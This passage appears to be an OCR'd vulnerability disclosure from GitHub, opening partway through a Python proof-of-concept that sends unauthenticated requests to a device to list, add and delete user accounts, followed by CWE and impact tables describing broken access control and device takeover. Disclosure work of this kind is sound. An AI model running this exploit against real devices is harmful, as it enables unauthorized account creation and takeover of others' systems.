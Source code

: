 ```python
            "TUNER1": 1,
            "TUNER2": 1,
            "AUDIO": 1
        }
    }
    response = requests.post(target, json=payload)
    print(response.json())

# Delete User
def delete_user():
    payload = {
        "USER": "admin",
        "DEL_USER": "tester"
    }
    response = requests.post(target, json=payload)
    print(response.json())

if __name__ == "__main__":
    print("[+] Listing Users...")
    list_users()
    print("[+] Adding User 'tester'...")
    add_user()
    print("[+] Listing Users After Addition...")
    list_users()
    print("[+] Deleting User 'tester'...")
    delete_user()
    print("[+] Listing Users After Deletion...")
    list_users()
```
---

## **PoC Video**  

https://github.com/user-attachments/assets/a6177f95-1eb3-4779-9d83-ffd0c71233c4

---

## Vulnerability Type Information

| Vulnerability Type         | CWE-ID                           |
|---------------------------|----------------------------------|
| Broken Access Control      | CWE-284 (Improper Access Control) |
| Improper Authorization     | CWE-285 (Improper Authorization)  |

---

## Impact Information

| Impact Type                  | Description                                                                 |
|-----------------------------|-----------------------------------------------------------------------------|
| **Privilege Escalation**      | Unauthenticated attackers can create administrative accounts.               |
| **Account Takeover**          | Attackers can list and delete existing accounts.                             |
| **Complete Device Compromise** | Attackers can control device settings and access sensitive information.      |

---